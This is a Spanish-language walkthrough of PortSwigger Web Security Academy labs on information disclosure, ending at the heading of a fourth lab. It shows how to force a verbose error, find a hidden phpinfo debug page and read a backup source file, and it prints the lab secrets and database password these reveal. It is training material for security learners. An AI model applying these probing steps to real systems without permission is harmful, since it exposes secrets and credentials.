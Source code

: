 ```yaml
---
layout: default
title: "Information disclosure vulnerabilities - PortSwigger"
permalink: /information-disclosure-ps/
---
```


# Information disclosure vulnerabilities - PortSwigger

Todos los laboratorios posteriormente expuestos los puedes encontrar para resolverlos en el siguiente link.

[https://portswigger.net/web-security/information-disclosure](https://portswigger.net/web-security/information-disclosure)

## Índice



## 1. Lab: Information disclosure in error messages

```
Los mensajes de error detallados de este laboratorio revelan que está utilizando una versión vulnerable de un marco de trabajo de terceros. Para resolver el laboratorio, obtenga y envíe el número de versión de este marco.
```

Para ello vamos a un post cualquiera, como por ejemplo el siguiente:

```bash
https://ac021f2c1ef6afe380996b3f004c0037.web-security-academy.net/product?productId=1
```

Y generamos un error como borrar el valor del parametro **productId**.

```bash
https://ac021f2c1ef6afe380996b3f004c0037.web-security-academy.net/product?productId='
```

 Y generamos el siguiente error.

```bash
Internal Server Error: java.lang.NumberFormatException: For input string: "'"
	at java.base/java.lang.NumberFormatException.forInputString(NumberFormatException.java:65)
	at java.base/java.lang.Integer.parseInt(Integer.java:638)
	at java.base/java.lang.Integer.parseInt(Integer.java:770)
	at lab.data.productcatalog.catalog.DefaultProductCatalogDataSource.getProduct(DefaultProductCatalogDataSource.java:73)
	at lab.display.productcatalog.filter.NoFilterStrategy.getProduct(NoFilterStrategy.java:47)
	at lab.display.productcatalog.page.product.SimpleProductStrategy.handle(SimpleProductStrategy.java:67)
	at lab.display.productcatalog.page.SimpleProductPageStrategy.lambda$handleSubRequest$0(SimpleProductPageStrategy.java:82)
	at net.portswigger.util.Unchecked.lambda$null$3(Unchecked.java:46)
	at net.portswigger.util.Unchecked.uncheck(Unchecked.java:73)
	at net.portswigger.util.Unchecked.lambda$uncheckedFunction$4(Unchecked.java:46)
	at java.base/java.util.Optional.map(Optional.java:265)
	at lab.display.productcatalog.page.SimpleProductPageStrategy.handleSubRequest(SimpleProductPageStrategy.java:77)
	at lab.server.vulnerable.backend.SubHandler.handle(SubHandler.java:41)
	at lab.display.productcatalog.SimpleProductCatalogStrategy.handle(SimpleProductCatalogStrategy.java:75)
	at lab.server.vulnerable.backend.Backend.applyChain(Backend.java:344)
	at lab.server.vulnerable.backend.Backend.lambda$handler$1(Backend.java:289)
	at net.portswigger.util.Unchecked.lambda$null$3(Unchecked.java:46)
	at net.portswigger.util.Unchecked.uncheck(Unchecked.java:73)
	at net.portswigger.util.Unchecked.lambda$uncheckedFunction$4(Unchecked.java:46)
	at java.base/java.util.Optional.flatMap(Optional.java:294)
	at lab.server.vulnerable.backend.Backend.handler(Backend.java:251)
	at lab.server.vulnerable.backend.Backend.handle(Backend.java:239)
	at lab.server.vulnerable.frontend.NoFrontend.handle(NoFrontend.java:37)
	at lab.server.vulnerable.VulnerableApp.handle(VulnerableApp.java:111)
	at lab.server.LabHosts.handle(LabHosts.java:81)
	at lab.server.LabApp.handle(LabApp.java:167)
	at lab.server.LabApp.handle(LabApp.java:51)
	at net.portswigger.http.server.HttpServer$Connection.handleRequest(HttpServer.java:831)
	at net.portswigger.http.server.HttpServer$Connection.runHttp(HttpServer.java:817)
	at net.portswigger.http.server.HttpServer$Connection.run(HttpServer.java:756)
	at java.base/java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1128)
	at java.base/java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:628)
	at java.base/java.lang.Thread.run(Thread.java:834)

Apache Struts 2 2.3.31
```

Siendo la solucion:

```bash
Apache Struts 2 2.3.31
```

Enviamos la respuesta y completamos el laboratorio.

![](img1.png)

## 2. Lab: Information disclosure on debug page

```
Este laboratorio contiene una página de depuración que revela información confidencial sobre la aplicación. Para resolver el laboratorio, obtenga y envíe la variable de entorno SECRET_KEY.
```

Revisando el codigo fuente del laboratorio nos encontramos con lo siguiente:

```html
                        <div>
                            <img src="/image/content/productcatalog/products/1.jpg">
                            <h3>Eggtastic, Fun, Food Eggcessories</h3>
                            <img src="/resources/images/rating4.png">
                            $27.60
                            <a class="button" href="/product?productId=20">View details</a>
                        </div>
                    </section>
                    <!-- <a href=/cgi-bin/phpinfo.php>Debug</a> -->
                </div>
            </section>
```

Existe una ruta en donde nos podemos topar con un archivo phpinfo.php, que tiene el nombre de **Debug**. Entonces accedemos a la ruta

```
https://ace81f711f47a55d803d2973000a00a8.web-security-academy.net/cgi-bin/phpinfo.php
```

Y ahi dentro buscamos entre toda la informacion interesante el nombre de la variable de entorno **SECRET_KEY**.

```
SECRET_KEY	jkz8p8xls3tgv9z1l5ztffdsgpvv173y
```

Entonces enviamos la solucion y completamos el laboratorio.

![](img2.png)

## 3. Lab: Source code disclosure via backup files

```
Este laboratorio filtra su código fuente a través de archivos de respaldo en un directorio oculto. Para resolver el laboratorio, identifique y envíe la contraseña de la base de datos, que está codificada en el código fuente filtrado.
```

Buscamos directorios posibles, y nos topamos con que el directorio **backup** existe, y dentro de el encontramos un archivo llamado **ProductTemplate.java.bak** , la ruta sería.

```
https://ac371fb21ec0935c80fa104d00c30038.web-security-academy.net/backup/ProductTemplate.java.bak
```

Luego leyendo el codigo del archivo nos encontramos con lo siguiente.

```java
        ConnectionBuilder connectionBuilder = ConnectionBuilder.from(
                "org.postgresql.Driver",
                "postgresql",
                "localhost",
                5432,
                "postgres",
                "postgres",
                "tdutsjroyh43uwjtfq0gqoohgpd4hynr"
        ).withAutoCommit();
```

Entonces, concluimos que la contraseña de la base de datos es:

```
tdutsjroyh43uwjtfq0gqoohgpd4hynr
```

Entonces, enviamos la solucion y completamos el laboratorio.

![](img3.png)

## 4. Lab: Authentication bypass via information disclosure

